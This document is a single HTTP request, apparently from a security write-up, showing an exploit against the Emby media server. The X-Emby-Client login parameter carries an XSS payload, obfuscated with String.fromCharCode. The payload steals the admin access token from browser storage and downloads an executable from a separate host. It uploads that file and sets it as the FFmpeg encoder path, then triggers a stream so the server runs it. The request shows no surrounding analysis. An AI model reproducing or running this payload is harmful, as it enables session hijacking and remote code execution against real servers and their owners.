 ```txt { linenos=true, linenostart=1 }
POST https://<hostname:port>/emby/Users/authenticatebyname?X-Emby-Client=%3Cimg%20src=%22x%22%20onerror=%22eval(String.fromCharCode(33,97,115,121,110,99,32,102,117,110,99,116,105,111,110,40,41,123,99,111,110,115,111,108,101,46,119,97,114,110,40,34,37,99,92,110,32,95,95,95,92,110,40,95,32,32,95,32,32,47,32,32,32,95,32,32,32,32,32,32,32,32,95,92,110,47,95,95,47,47,41,40,41,40,47,40,47,40,47,40,41,40,47,95,41,92,110,32,32,32,32,32,32,32,32,47,95,47,92,110,32,32,32,32,32,32,32,32,32,32,32,32,32,32,32,45,45,32,71,69,66,73,82,71,69,32,40,50,48,50,51,41,92,110,34,44,34,99,111,108,111,114,58,32,35,100,51,51,54,56,50,34,41,59,99,111,110,115,116,32,101,61,123,34,88,45,69,109,98,121,45,84,111,107,101,110,34,58,74,83,79,78,46,112,97,114,115,101,40,108,111,99,97,108,83,116,111,114,97,103,101,46,115,101,114,118,101,114,99,114,101,100,101,110,116,105,97,108,115,51,41,46,83,101,114,118,101,114,115,91,48,93,46,65,99,99,101,115,115,84,111,107,101,110,125,59,108,101,116,32,116,61,97,119,97,105,116,32,102,101,116,99,104,40,34,47,83,121,115,116,101,109,47,73,110,102,111,34,44,123,104,101,97,100,101,114,115,58,101,125,41,59,99,111,110,115,116,32,97,61,40,97,119,97,105,116,32,116,46,106,115,111,110,40,41,41,46,84,114,97,110,115,99,111,100,105,110,103,84,101,109,112,80,97,116,104,44,111,61,34,102,102,109,112,101,103,95,98,97,99,107,117,112,46,101,120,101,34,44,115,61,34,102,102,109,112,101,103,95,98,97,99,107,117,112,34,44,110,61,96,36,123,97,125,92,92,36,123,115,125,92,92,36,123,111,125,46,106,112,103,96,44,99,61,123,67,97,109,101,114,97,85,112,108,111,97,100,80,97,116,104,58,97,125,59,97,119,97,105,116,32,102,101,116,99,104,40,34,47,83,121,115,116,101,109,47,67,111,110,102,105,103,117,114,97,116,105,111,110,47,100,101,118,105,99,101,115,34,44,123,109,101,116,104,111,100,58,34,80,79,83,84,34,44,104,101,97,100,101,114,115,58,101,44,98,111,100,121,58,74,83,79,78,46,115,116,114,105,110,103,105,102,121,40,99,41,125,41,59,99,111,110,115,116,32,105,61,97,119,97,105,116,40,97,119,97,105,116,32,102,101,116,99,104,40,34,104,116,116,112,58,47,47,108,111,99,97,108,104,111,115,116,58,56,48,48,48,47,114,111,102,108,46,101,120,101,34,41,41,46,98,108,111,98,40,41,59,97,119,97,105,116,32,102,101,116,99,104,40,96,47,68,101,118,105,99,101,115,47,67,97,109,101,114,97,85,112,108,111,97,100,115,63,65,108,98,117,109,61,36,123,115,125,38,78,97,109,101,61,36,123,111,125,38,73,100,61,49,96,44,123,109,101,116,104,111,100,58,34,80,79,83,84,34,44,104,101,97,100,101,114,115,58,101,44,98,111,100,121,58,105,125,41,44,116,61,97,119,97,105,116,32,102,101,116,99,104,40,34,47,69,110,99,111,100,105,110,103,47,70,102,109,112,101,103,79,112,116,105,111,110,115,34,44,123,104,101,97,100,101,114,115,58,101,125,41,59,99,111,110,115,116,32,100,61,40,97,119,97,105,116,32,116,46,106,115,111,110,40,41,41,46,79,98,106,101,99,116,46,79,114,105,103,105,110,97,108,69,110,99,111,100,101,114,80,97,116,104,44,114,61,123,67,117,115,116,111,109,69,110,99,111,100,101,114,80,97,116,104,58,110,44,85,115,101,67,117,115,116,111,109,69,110,99,111,100,101,114,80,97,116,104,58,33,48,125,59,116,61,97,119,97,105,116,32,102,101,116,99,104,40,34,47,69,110,99,111,100,105,110,103,47,70,102,109,112,101,103,79,112,116,105,111,110,115,34,44,123,109,101,116,104,111,100,58,34,80,79,83,84,34,44,104,101,97,100,101,114,115,58,101,44,98,111,100,121,58,74,83,79,78,46,115,116,114,105,110,103,105,102,121,40,114,41,125,41,44,116,61,97,119,97,105,116,32,102,101,116,99,104,40,34,47,73,116,101,109,115,63,82,101,99,117,114,115,105,118,101,61,116,114,117,101,38,73,110,99,108,117,100,101,73,116,101,109,84,121,112,101,115,61,86,105,100,101,111,38,76,105,109,105,116,61,49,34,44,123,104,101,97,100,101,114,115,58,101,125,41,59,99,111,110,115,116,32,104,61,40,97,119,97,105,116,32,116,46,106,115,111,110,40,41,41,46,73,116,101,109,115,91,48,93,46,73,100,59,97,119,97,105,116,32,102,101,116,99,104,40,96,47,86,105,100,101,111,115,47,36,123,104,125,47,115,116,114,101,97,109,46,97,118,105,96,44,123,104,101,97,100,101,114,115,58,101,125,41,59,99,111,110,115,116,32,109,61,123,67,117,115,116,111,109,69,110,99,111,100,101,114,80,97,116,104,58,100,44,85,115,101,67,117,115,116,111,109,69,110,99,111,100,101,114,80,97,116,104,58,33,49,125,59,97,119,97,105,116,32,102,101,116,99,104,40,34,47,69,110,99,111,100,105,110,103,47,70,102,109,112,101,103,79,112,116,105,111,110,115,34,44,123,109,101,116,104,111,100,58,34,80,79,83,84,34,44,104,101,97,100,101,114,115,58,101,44,98,111,100,121,58,74,83,79,78,46,115,116,114,105,110,103,105,102,121,40,109,41,125,41,125,40,41,59))%22%20/%3E&X-Emby-Device-Id=13371337-1337-1337-1337-133713371337&X-Emby-Client-Version=4.7.14.0

Content-Type: application/json

{
  "Username": "username",
  "Pw": "password"
}
```
